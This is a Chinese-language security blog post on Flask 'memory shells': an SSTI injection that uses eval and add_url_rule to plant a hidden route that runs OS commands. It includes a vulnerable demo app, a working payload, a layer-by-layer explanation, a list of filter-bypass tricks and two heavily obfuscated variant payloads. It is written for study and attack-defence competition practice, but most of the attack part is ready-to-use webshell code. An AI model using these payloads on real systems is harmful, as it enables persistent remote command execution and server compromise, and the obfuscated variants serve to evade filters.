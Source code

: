 # Python 内存马

Author: H3rmesk1t

本文首发于[先知社区](https://xz.aliyun.com/t/10933)

## 前言
打安洵杯线下的时候有一道`Python`的`SSTI`模板注入的`AWD`题目, 由于之前没有怎么接触过关于`Python`的攻防点, 一度被别人种了`Python 内存马`都还没发现, 等比赛中断发现修补后的题目被打进来后, 查看流量记录才意识到攻击者前面是用的`Flask`内存马打的, 之前看过大概的思路却鸽了一直没学, 这里暂且记录一下相关知识点.

## 概念
常用的`Python`框架有`Django`、`Flask`, 这两者都可能存在`SSTI`漏洞. `Python 内存马`利用`Flask`框架中`SSTI`注入来实现, `Flask`框架中在`web`应用模板渲染的过程中用到`render_template_string`进行渲染, 但未对用户传输的代码进行过滤导致用户可以通过注入恶意代码来实现`Python`内存马的注入.

## Flask 请求上下文管理机制
当网页请求进入`Flask`时, 会实例化一个`Request Context`. 在`Python`中分出了两种上下文: 请求上下文(request context)、应用上下文(session context). 一个请求上下文中封装了请求的信息, 而上下文的结构是运用了一个`Stack`的栈结构, 也就是说它拥有一个栈所拥有的全部特性. `request context`实例化后会被`push`到栈`_request_ctx_stack`中, 基于此特性便可以通过获取栈顶元素的方法来获取当前的请求.

## 漏洞环境
先用`Flask`编写一个`SSTI-Demo`:

```python
from flask import Flask, request, render_template_string

app = Flask(__name__)


@app.route('/')
def hello_world():  # put application's code here
    person = 'knave'
    if request.args.get('name'):
        person = request.args.get('name')
    template = '<h1>Hi, %s.</h1>' % person
    return render_template_string(template)


if __name__ == '__main__':
    app.run()
```

原始`Flask`内存马`Payload`:

```python
url_for.__globals__['__builtins__']['eval']("app.add_url_rule('/shell', 'shell', lambda :__import__('os').popen(_request_ctx_stack.top.request.args.get('cmd', 'whoami')).read())",{'_request_ctx_stack':url_for.__globals__['_request_ctx_stack'],'app':url_for.__globals__['current_app']})
```

命令执行结果:

![](./images/1.png)

![](./images/1.png)

## Payload 分析
将前面的`Payload`拆开来, 逐层分析.

```python
url_for.__globals__['__builtins__']['eval'](
    "app.add_url_rule(
        '/shell', 
        'shell', 
        lambda :__import__('os').popen(_request_ctx_stack.top.request.args.get('cmd', 'whoami')).read()
    )",
    {
        '_request_ctx_stack':url_for.__globals__['_request_ctx_stack'],
        'app':url_for.__globals__['current_app']
    }
)
```

对于`url_for.__globals__['__builtins__']['eval']`这一截`Payload`, `url_for`是`Flask`的一个内置函数, 通过`Flask`内置函数可以调用其`__globals__`属性, 该特殊属性能够返回函数所在模块命名空间的所有变量, 其中包含了很多已经引入的`modules`, 可以看到这里是支持`__builtins__`的.

![](./images/3.png)

![](./images/4.png)

在`__builtins__`模块中, `Python`在启动时就直接为我们导入了很多内建函数. 准确的说, `Python`在启动时会首先加载内建名称空间, 内建名称空间中有许多名字到对象之间的映射, 这些名字就是内建函数的名称, 对象就是这些内建函数对象. 可以看到, 在`__builtins__`模块的内建函数中是存在`eval`、`exec`等命令执行函数的.

![](./images/5.png)

```python
['ArithmeticError', 'AssertionError', 'AttributeError', 'BaseException', 'BlockingIOError', 'BrokenPipeError', 'BufferError', 'BytesWarning', 'ChildProcessError', 'ConnectionAbortedError', 'ConnectionError', 'ConnectionRefusedError', 'ConnectionResetError', 'DeprecationWarning', 'EOFError', 'Ellipsis', 'EnvironmentError', 'Exception', 'False', 'FileExistsError', 'FileNotFoundError', 'FloatingPointError', 'FutureWarning', 'GeneratorExit', 'IOError', 'ImportError', 'ImportWarning', 'IndentationError', 'IndexError', 'InterruptedError', 'IsADirectoryError', 'KeyError', 'KeyboardInterrupt', 'LookupError', 'MemoryError', 'ModuleNotFoundError', 'NameError', 'None', 'NotADirectoryError', 'NotImplemented', 'NotImplementedError', 'OSError', 'OverflowError', 'PendingDeprecationWarning', 'PermissionError', 'ProcessLookupError', 'RecursionError', 'ReferenceError', 'ResourceWarning', 'RuntimeError', 'RuntimeWarning', 'StopAsyncIteration', 'StopIteration', 'SyntaxError', 'SyntaxWarning', 'SystemError', 'SystemExit', 'TabError', 'TimeoutError', 'True', 'TypeError', 'UnboundLocalError', 'UnicodeDecodeError', 'UnicodeEncodeError', 'UnicodeError', 'UnicodeTranslateError', 'UnicodeWarning', 'UserWarning', 'ValueError', 'Warning', 'ZeroDivisionError', '_', '__build_class__', '__debug__', '__doc__', '__import__', '__loader__', '__name__', '__package__', '__spec__', 'abs', 'all', 'any', 'ascii', 'bin', 'bool', 'breakpoint', 'bytearray', 'bytes', 'callable', 'chr', 'classmethod', 'compile', 'complex', 'copyright', 'credits', 'delattr', 'dict', 'dir', 'divmod', 'enumerate', 'eval', 'exec', 'exit', 'filter', 'float', 'format', 'frozenset', 'getattr', 'globals', 'hasattr', 'hash', 'help', 'hex', 'id', 'input', 'int', 'isinstance', 'issubclass', 'iter', 'len', 'license', 'list', 'locals', 'map', 'max', 'memoryview', 'min', 'next', 'object', 'oct', 'open', 'ord', 'pow', 'print', 'property', 'quit', 'range', 'repr', 'reversed', 'round', 'set', 'setattr', 'slice', 'sorted', 'staticmethod', 'str', 'sum', 'super', 'tuple', 'type', 'vars', 'zip']
```

由于存在命令执行函数, 因此我们就可以直接调用命令执行函数来执行危险操作, `Exploit`如下:

```python
{{url_for.__globals__['__builtins__']['eval']("__import__('os').system('open -a Calculator')")}}
```

![](./images/6.png)

接着再来看看`app.add_url_rule('/shell', 'shell', lambda :__import__('os').popen(_request_ctx_stack.top.request.args.get('cmd', 'whoami')).read())`这一截`Payload`. 这部分是动态添加了一条路由, 而处理该路由的函数是个由`lambda`关键字定义的匿名函数.

在`Flask`中注册路由的时候是添加的`@app.route()`装饰器来实现的, 跟进查看其源码实现, 发现其调用了`add_url_rule`函数来添加路由.

![](./images/7.png)

跟进`add_url_rule`函数, 其参数说明如下:
 - rule: 函数对应的`URL`规则, 满足条件和`app.route`的第一个参数一样, 必须以`/`开头.
 - endpoint: 端点, 即在使用`url_for`进行反转的时候, 这里传入的第一个参数就是`endpoint`对应的值, 这个值也可以不指定, 默认就会使用函数的名字作为`endpoint`的值.
 - view_func: `URL`对应的函数, 这里只需写函数名字而不用加括号.
 - provide_automatic_options: 控制是否应自动添加选项方法.
 - options: 要转发到基础规则对象的选项.

![](./images/8.png)

`lambda`即匿名函数, `Payload`中`add_url_rule`函数的第三个参数定义了一个`lambda`匿名函数, 其中通过`os`库的`popen`函数执行从`Web`请求中获取的`cmd`参数值并返回结果, 其中该参数值默认为`whoami`.

再来看看`'_request_ctx_stack':url_for.__globals__['_request_ctx_stack'],'app':url_for.__globals__['current_app']}`这一截`Payload`. `_request_ctx_stack`是`Flask`的一个全局变量, 是一个`LocalStack`实例, 这里的`_request_ctx_stack`即上文中提到的`Flask 请求上下文管理机制`中的`_request_ctx_stack`. `app`也是`Flask`的一个全局变量, 这里即获取当前的`app`.

到此, 大致逻辑基本就梳理清晰了, `eval`函数的功能即动态创建一条路由, 并在后面指明了所需变量的全局命名空间, 保证`app`和`_request_ctx_stack`都可以被找到.

## ByPass
在实际应用中往往都存在过滤, 因此了解如何绕过还是必要的.
 - `url_for`可替换为`get_flashed_messages`或者`request.__init__`或者`request.application`.
 - 代码执行函数替换, 如`exec`等替换`eval`.
 - 字符串可采用拼接方式, 如`['__builtins__']['eval']`变为`['__bui'+'ltins__']['ev'+'al']`.
 - `__globals__`可用`__getattribute__('__globa'+'ls__')`替换.
 - `[]`可用`.__getitem__()`或`.pop()`替换.
 - 过滤`{{`或者`}}`, 可以使用`{%`或者`%}`绕过, `{%%}`中间可以执行`if`语句, 利用这一点可以进行类似盲注的操作或者外带代码执行结果.
 - 过滤`_`可以用编码绕过, 如`__class__`替换成`\x5f\x5fclass\x5f\x5f`, 还可以用`dir(0)[0][0]`或者`request['args']`或者`request['values']`绕过.
 - 过滤了`.`可以采用`attr()`或`[]`绕过.
 - 其它的手法参考`SSTI`绕过过滤的方法即可...

这里给出两个变形`Payload`:
 - 原`Payload`

```python
url_for.__globals__['__builtins__']['eval']("app.add_url_rule('/h3rmesk1t', 'h3rmesk1t', lambda :__import__('os').popen(_request_ctx_stack.top.request.args.get('shell')).read())",{'_request_ctx_stack':url_for.__globals__['_request_ctx_stack'],'app':url_for.__globals__['current_app']})
```

 - 变形`Payload-1`

```python
request.application.__self__._get_data_for_json.__getattribute__('__globa'+'ls__').__getitem__('__bui'+'ltins__').__getitem__('ex'+'ec')("app.add_url_rule('/h3rmesk1t', 'h3rmesk1t', lambda :__import__('os').popen(_request_ctx_stack.top.request.args.get('shell', 'calc')).read())",{'_request_ct'+'x_stack':get_flashed_messages.__getattribute__('__globa'+'ls__').pop('_request_'+'ctx_stack'),'app':get_flashed_messages.__getattribute__('__globa'+'ls__').pop('curre'+'nt_app')})
```

 - 变形`Payload-2`

```python
get_flashed_messages|attr("\x5f\x5fgetattribute\x5f\x5f")("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetattribute\x5f\x5f")("\x5f\x5fgetitem\x5f\x5f")("__builtins__")|attr("\x5f\x5fgetattribute\x5f\x5f")("\x5f\x5fgetitem\x5f\x5f")("\u0065\u0076\u0061\u006c")("app.add_ur"+"l_rule('/h3rmesk1t', 'h3rmesk1t', la"+"mbda :__imp"+"ort__('o"+"s').po"+"pen(_request_c"+"tx_stack.to"+"p.re"+"quest.args.get('shell')).re"+"ad())",{'\u005f\u0072\u0065\u0071\u0075\u0065\u0073\u0074\u005f\u0063\u0074\u0078\u005f\u0073\u0074\u0061\u0063\u006b':get_flashed_messages|attr("\x5f\x5fgetattribute\x5f\x5f")("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetattribute\x5f\x5f")("\x5f\x5fgetitem\x5f\x5f")("\u005f\u0072\u0065\u0071\u0075\u0065\u0073\u0074\u005f\u0063\u0074\u0078\u005f\u0073\u0074\u0061\u0063\u006b"),'app':get_flashed_messages|attr("\x5f\x5fgetattribute\x5f\x5f")("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetattribute\x5f\x5f")("\x5f\x5fgetitem\x5f\x5f")("\u0063\u0075\u0072\u0072\u0065\u006e\u0074\u005f\u0061\u0070\u0070")})
```

![](./images/10.png)

## 参考
 - [浅析Python Flask内存马](https://www.mi1k7ea.com/2021/04/07/%E6%B5%85%E6%9E%90Python-Flask%E5%86%85%E5%AD%98%E9%A9%AC/)